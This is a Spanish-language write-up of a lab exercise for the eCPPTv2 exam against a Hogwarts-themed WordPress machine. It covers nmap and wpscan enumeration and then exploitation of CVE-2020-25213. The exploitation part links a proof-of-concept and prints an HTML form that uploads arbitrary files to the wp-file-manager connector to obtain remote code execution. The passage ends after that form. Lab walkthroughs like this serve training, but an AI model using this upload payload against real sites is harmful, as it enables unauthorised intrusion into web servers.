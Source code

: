 Para ambos servicios se reporta un “Debian Buster”.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 9.png)

Se ve que hay un puerto 80 por lo que ahora se lanzará un pequeño fuzzer sobre ese puerto para detectar posibles rutas en la web.

```bash
nmap -p80 --script http-enum 192.168.0.103 -oN httpenum.log
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 10.png)

La web parece contener un blog y está utilizando un wordpress. Antes de ver estas rutas, la página de primeras se ve de la siguiente manera.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 11.png)

Al verificar el blog, se puede ver que se está acudiendo a un nombre de dominio.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 12.png)

Después de agregar este dominio al “/etc/hosts”, la página ahora se ve así:

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 13.png)

Debido a que la web está utilizando wordpress, se hará un escaneo con wpscan.

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog/ 
--enumerate u,vp --plugins-detection aggressive 
--api-token <token>

--enumerate u,vp # Enumerar usuarios y plugins vulnerables
--plugins-detection <mode> # Modo en el que se detectarán 
# plugins: mixed, passive, aggressive
--api-token <token> # Indica un token a utilizar (esto 
# permite  más funcionalidades)
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 14.png)

## Explotación (CVE-2020-25213)

Se encontró una vulnerabilidad que permite subir un archivo y conducirlo a un RCE.

POC: https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py

```bash
https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py

<html>
<body>
  <form method="POST" enctype="multipart/form-data" action="https://example.com/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php">
    <input type="hidden" name="cmd" value="upload"/>
    <input type="hidden" name="target" value="l1_Lw"/>
    <input type="file" name="upload[]"/><br/><br/>
    <input type="submit" value="Upload"/>
  </form>
</body>
```

